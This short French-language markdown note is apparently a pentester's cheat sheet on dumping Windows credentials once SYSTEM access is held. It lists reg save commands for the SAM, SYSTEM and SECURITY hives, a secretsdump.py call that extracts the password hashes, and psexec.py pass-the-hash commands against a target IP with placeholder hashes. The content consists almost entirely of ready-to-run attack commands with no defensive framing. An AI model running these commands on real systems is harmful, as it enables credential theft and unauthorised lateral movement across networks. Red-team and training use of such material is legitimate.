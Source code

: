 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Sauvegarde des credentials quand on est system
```shell
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

```
secretdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

``` shell 

psexec.py Administratur@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
psexec.py Administratur@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
```
